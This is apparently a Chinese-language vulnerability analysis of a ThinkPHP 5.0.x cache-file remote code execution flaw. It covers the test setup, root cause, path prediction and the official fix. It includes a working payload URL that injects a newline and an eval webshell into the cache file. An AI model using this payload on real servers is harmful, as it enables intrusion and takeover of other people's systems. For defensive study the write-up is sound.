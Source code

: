 # ThinkPHP5.0.x 远程代码执行

Author: H3rmesk1t

Data: 2021.08.16

# 漏洞概要
- 本次漏洞存在于 ThinkPHP 的缓存类中。该类会将缓存数据通过序列化的方式，直接存储在 .php 文件中，攻击者通过精心构造的 payload ，即可将 webshell 写入缓存文件。缓存文件的名字和目录均可预测出来，一旦缓存目录可访问或结合任意文件包含漏洞，即可触发 远程代码执行漏洞
- 漏洞影响版本： 
5.0.0<=ThinkPHP5<=5.0.10

# 初始配置
获取测试环境代码

```bash
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/367b733b84ce4ed485b21e0afd629fa9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

将 composer.json 文件的 require 字段设置成如下

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
},
```

然后执行 `composer update` ，并将 `application/index/controller/Index.php` 文件代码设置如下

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d3f889d805743e98da38af535401987.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">十年磨一剑 - 为API开发设计的高性能框架</span></p><span style="font-size:22px;">[ V5.0 版本由 <a href="http://www.qiniu.com" target="qiniu">七牛云</a独家赞助发布 ]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
?>
```
# 漏洞利用

Payload

```bas
http://127.0.0.1/cms/public/index.php?username=H3rmesk1t%0d%0a@eval($_REQUEST[d1no]);//
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b22f06b4988d4551aff167b951cd61d5.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/7a818445aaaf4618b4c73d39c01eddcf.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 漏洞分析

跟进 `Cache` 类的 `set` 方法，发现其先通过单例模式 `init` 方法，创建了一个类实例，该类由 `cache` 的配置项 `type` 决定，默认情况下其值为 `File` ，在本例中 `self::$handler` 即为 `think\cache\driver\File` 类实例

![在这里插入图片描述](https://img-blog.csdnimg.cn/6d03e14650ec43808eb2f6cf3d2d4272.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/5e9f26f0e86c4cf0a0b4d80b7059682a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/c4818b22818a404d88246d5fa9be73ef.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

在 `thinkphp/library/think/cache/driver/` 目录下可以看到 Thinkphp5 支持的几种缓存驱动类，接着上面的分析，程序调用 `think\cache\driver\File` 类的 `set` 方法，可以看到 `data` 数据没有经过任何处理，只是序列化后拼接存储在文件中，这里的 `$this->options['data_compress']` 变量默认情况下为 `false` ，所以数据不会经过 `gzcompress` 函数处理，虽然在序列化数据前面拼接了单行注释符 `//` ，但是我们可以通过注入换行符绕过该限制

![在这里插入图片描述](https://img-blog.csdnimg.cn/c608b06ace83450d93e3ed4050d754ba.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/d76f13392544417d9f3966bf1f141fea.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

来看看缓存文件的名字是如何生成的，从前面可以看到文件名是通过调用 `getCacheKey` 方法获得的，跟进该方法可以看到缓存文件的子目录和文件名均和缓存类设置的键有关（如本例中缓存类设置的键为 name ），程序先获得键名的 `md5` 值，然后将该 `md5` 值的前 `2` 个字符作为缓存子目录，后 30 字符作为缓存文件名，如果应用程序还设置了前缀 `$this->options['prefix']` ，那么缓存文件还将多一个上级目录

![在这里插入图片描述](https://img-blog.csdnimg.cn/bda2a2f3afaa4888911fd95d2284c389.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

这个漏洞要想利用成功，得知道缓存类所设置的键名，这样才能找到 `webshell` 路径；其次如果按照官方说明开发程序， `webshell` 最终会被写到 `runtime` 目录下，而官方推荐 `public` 作为 web 根目录，所以即便写入了 `shell` ，也无法直接访问到；最后如果程序有设置 `$this->options['prefix']` 的话，在没有源码的情况下还是无法获得 `webshell` 的准确路径

# 漏洞修复

官方的修复方法是：将数据拼接在 `php` 标签之外，并在 `php` 标签中拼接 `exit()` 函数

![在这里插入图片描述](https://img-blog.csdnimg.cn/503b5156d7114ab982a5f6afb639546d.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# 攻击总结

参考Mochazz师傅的审计流程

![在这里插入图片描述](https://img-blog.csdnimg.cn/e5f1f064247d4bde85e8d6ca043f6b09.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
